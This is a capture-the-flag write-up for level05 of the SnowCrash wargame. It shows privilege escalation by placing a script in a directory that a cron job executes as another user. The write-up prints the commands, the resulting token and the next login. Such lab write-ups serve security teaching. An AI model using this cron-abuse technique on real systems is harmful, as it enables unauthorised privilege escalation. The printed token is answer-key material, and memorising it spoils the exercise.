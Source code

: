 
after directly logged in to this level a  text popped
up on the terminal "You have new mail."

so we need to go check the place where the mail is sent
and it's /var/mail

let's go check the mail:
--------------------------------
level05@SnowCrash:~$ ls /var/mail
level05
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
--------------------------------

so the message is saying that the script in /usr/sbin/openarenaserver
gets executed every 2mins

let's cat the script and check it:
--------------------------------
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
--------------------------------

so this is a script that execute anything that's located in
/opt/openarenaserver/ and then delete them all

so we need to create a script that get us the flag and put the result
in /tmp/pass file

let's create first a script:
--------------------------------
level05@SnowCrash:/tmp$ echo "/bin/getflag > /tmp/pass" > /opt/openarenaserver/script.sh
--------------------------------

after waiting the time for the script to get executed
we cat the pass file where we stored the result:
--------------------------------
level05@SnowCrash:/tmp$ cat /tmp/pass
Check flag.Here is your token : viuaaale9huek52boumoomioc
--------------------------------

Good! let's get to our level06:
--------------------------------
level05@SnowCrash:~$ su level06
Password:
level06@SnowCrash:~$
--------------------------------
